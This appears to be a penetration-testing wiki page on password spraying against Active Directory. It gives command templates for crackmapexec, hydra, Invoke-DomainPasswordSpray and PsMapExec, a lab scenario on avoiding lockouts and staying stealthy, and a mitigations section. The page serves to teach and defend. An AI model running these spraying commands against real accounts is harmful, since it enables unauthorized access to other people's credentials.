



# Password Spraying

**ATT\&CK ID:** [T1110.003](https://attack.mitre.org/techniques/T1110/003/)

**Permissions Required:** <mark style="color:green;">**User**</mark>

**Description**

Adversaries may use a single or small list of commonly used passwords against many different accounts, in order to attempt acquisition of valid account credentials.

Password spraying uses one password (e.g. 'Password01'), or a small list of commonly used passwords, that may match the complexity policy of the domain. Logins are attempted with that password against many different accounts on a network to avoid account lockouts that would normally occur when brute forcing a single account with many passwords.

\[[source](https://attack.mitre.org/techniques/T1110/003/)]

## Linux

### Crackmapexec

```bash
crackmapexec <Service> <IP> -u <UserList> -p <PasswordList>
```

### Hydra

```bash
hydra -L <userList> -P <PasswordList> <Service>://<IP> -v -I 
```

## Windows

### Invoke-DomainPasswordSpray

**Link:** [https://github.com/The-Viper-One/DomainPasswordSpray](https://github.com/The-Viper-One/DomainPasswordSpray)

```bash
# With a list
Invoke-DomainPasswordSpray -PasswordList .\Passwords.txt -Domain [Domain]

# Singular password
Invoke-DomainPasswordSpray -Password [Password] -Domain [Domain]

# Username as password
Invoke-DomainPasswordSpray -UsernameAsPassword -Domain [Domain]
```

### PsMapExec

**Github:** [https://github.com/The-Viper-One/PsMapExec](https://github.com/The-Viper-One/PsMapExec)

```powershell
# Hash Spraying
PsMapExec -Method Spray -SprayHash [RC4]
PsMapExec -Method Spray -SprayHash [AES256]

# Password Spraying
PsMapExec -Method Spray -SprayPassword [Password]

# Empty Password
PsMapExec -Method Spray -EmptyPassword

# Account as Password 
PsMapExec -Method Spray -AccountAsPassword
```

## Scenario

In the scenario below we have a Windows Server 2022 Domain Controller containing the following domain user accounts:



In an enterprise environment we might imagine Active Directory would contain hundreds even thousands of domain user accounts. Below we can see the Default Domain Policy for the 'Account Policies/Account Lockout Policy' setting.



The settings show above are the generally the default lockout settings you will find in domain environments. With the default settings, a Bruce Force attack is possible however, severely hindered by the 30 minute lockout timer.

We also have the issue where locking out accounts is 'noisy' and may trigger alerts against the enterprise's blue team.

The advantage here of password spraying is we can attempt to Brute Force a large amount of accounts against a very small common password lists and hope for a hit. As long the attackers stay below the lockout thresh hold this attack can be quite stealthy.

Below a single user account has been Brute Forced with a large password list locking the account out.

.png>)

Over on the Domain Controller we can see under the event logs for event **ID 4740** where the account was locked out.



Attempting to spray passwords against a list of known users we see some nice results using a small password list which is short enough to not trigger the account lockout for each account.

.png>)

## Mitigations

**Account Lockout Policies**

Set account lockout policies after a certain number of failed login attempts to prevent passwords from being guessed. Too strict a policy may create a denial of service condition and render environments un-usable, with all accounts used in the brute force being locked-out.

* Account Lockout Duration: [https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/account-lockout-duration](https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/account-lockout-duration)
* Account Lockout Threshold: [https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/account-lockout-threshold](https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/account-lockout-threshold)
* Reset Account Lockout Counter: [https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/reset-account-lockout-counter-after](https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/reset-account-lockout-counter-after)

**Password Policies**

* Password Policies: [https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/password-policy](https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/password-policy)

**Global Banned password list**

Use Microsoft's global banned password list. Requires a hybrid setup with Azure Active Directory. Uses Microsoft Entra telementry to prevent users from setting passwords that are known to be common, weak and contained within database breaches

* Hybrid: [https://learn.microsoft.com/en-us/entra/identity/authentication/concept-password-ban-bad#global-banned-password-list](https://learn.microsoft.com/en-us/entra/identity/authentication/concept-password-ban-bad#global-banned-password-list)
* On-Premise: [https://learn.microsoft.com/en-us/entra/identity/authentication/concept-password-ban-bad-on-premises](https://learn.microsoft.com/en-us/entra/identity/authentication/concept-password-ban-bad-on-premises)

**Playbook**

Refer to the following playbook mostly geared towards Azure but contains some great information

* [https://learn.microsoft.com/en-us/security/operations/incident-response-playbook-password-spray](https://learn.microsoft.com/en-us/security/operations/incident-response-playbook-password-spray)


### &#x20;<a href="#detection" id="detection"></a>
